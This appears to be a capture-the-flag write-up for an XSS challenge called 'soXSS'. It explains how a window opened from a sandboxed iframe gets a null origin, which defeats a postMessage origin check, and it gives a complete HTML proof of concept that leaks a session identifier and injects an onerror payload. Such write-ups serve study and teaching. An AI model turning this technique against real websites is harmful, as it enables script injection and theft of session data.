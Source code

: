 ## soXSS

![2022-04-07_01-54](https://user-images.githubusercontent.com/59454895/162093274-f54f182c-1dae-4f29-98ce-a7e1792f40fd.png)

## Let's begin

The first thing that can be noticed in the challenge is the use of post-messages and also the use of dompurify, as you can see from this screen:
![2022-04-07_02-01](https://user-images.githubusercontent.com/59454895/162093835-fd21e646-42a8-4395-b241-62196c4346ec.png)


Furthermore, at the following address it is possible to notice another part of the code, which highlights the goal, that is to bypass the highlighted condition in order to reach the sink
![2022-04-07_02-07](https://user-images.githubusercontent.com/59454895/162094500-690c045b-eaf3-44e0-bee3-82b866bf9d34.png)

the functioning of this part of The code is very clear, a listener event was used in order to check that the source and the identifier are not different, it's also important to say that the identifier is stored in a user's session.

First of all it was necessary to find a way to bypass this check ```e.origin !== window.origin```, After hitting my head a bit I found this thread on StackOverflow that really helped me a lot (https://stackoverflow.com/questions/55451493/what-is-window-origin,  https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox), apparently if we embedded the iframe via ```<iframe src="https://so-xss.terjanq.me/iframe.php" sandbox>``` we could force the null origin.

Now another problem arises, as the page cannot be embedded inside an iframe because there was the flag ```X-Frame-Options: SAMEORIGIN```. It means that the page can only be displayed in a frame on the same origin as the page itself. 

### There is still hope

One important feature proved very important to overcome this problem, all windows opened from sandbox iframe inherit the sandbox flag, as documentated here: https://www.w3.org/TR/2010/WD-html5-20100624/the-iframe-element.html.
It means that we don't need to put the page inside an iframe, we can just created a sandbox iframe and use ```window.open``` inside it, like this:
```javascript
<iframe id=f sandbox="allow-scripts allow-top-navigation allow-forms allow-modals allow-popups" srcdoc="<button onclick=run()>click me 1</button><script>
  function run() {
    var win = window.open('https://so-xss.terjanq.me/iframe.php')
    setTimeout(() => {
      win.postMessage({
            identifier: 'abc',
            type: 'render',
            body: `<img src=x onerror=opener.top.postMessage({identifier},'*')>`,
        }, '*');
    }, 2000)
  }
</script>"></iframe>
```
In this way the newly opened window inherit the sandbox flag and his origin will become null. The sandbox iframe and the window for iframe.php (which is accessible by the variable win) shares the same origin null.
Now another issue appears, The page on iframe.php has the origin "null", so we can't access any resources on the origin ```so-xss.terjanq.me``` and the rules says that we need to execute xss on that origin.

This is where the parameter ```identifier``` comes into play, because it's possible to open ```https://so-xss.terjanq.me/iframe.php``` and send XSS with stolen identifier so the origin is ```so-xss.terjanq.me```.

This is the final poc :
```javascript
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>test</title>
  </head>
  <body>
    <iframe id=f sandbox="allow-scripts allow-top-navigation allow-forms allow-modals allow-popups" srcdoc="<button onclick=run()>click me 1</button><script>
      function run() {
        var win = window.open('https://so-xss.terjanq.me/iframe.php')
        setTimeout(() => {
          win.postMessage({
                identifier: 'abc',
                type: 'render',
                body: `<img src=x onerror=opener.top.postMessage({identifier},'*')>`,
            }, '*');
        }, 2000)
      }
    </script>"></iframe><button onclick="run()">click me 2</button>
    <script>
      var realWin
      var identifier

      function send() {
        if (!realWin) {
          setTimeout(send, 500)
          return
        }

        // give it some time to load
        setTimeout(() => {
          realWin.postMessage({
            identifier,
            type: 'render',
            body: `<img src=x onerror=alert(origin)>`,
          }, '*');
        }, 1000)
        
      }
      onmessage = (e) => {
        if (e.data && e.data.identifier) {
          identifier = e.data.identifier
          console.log('identifier:', identifier)
          send()
        }
      }
      function run() {
        realWin = window.open('https://so-xss.terjanq.me/iframe.php')
      }

    </script>
  </body>
</html> 
```
To resume :

1) Open https://so-xss.terjanq.me/iframe.php from a sandboxed iframe, so in this way the newly opened window inherit the sandbox flag and his origin will become null.
2) Open https://so-xss.terjanq.me/iframe.php and send the XSS with the stolen identifier, in this way the origin will be ```so-xss.terjanq.me.```

To conclude this writeup I would like to thank Huli who helped me with the writing of the poc.
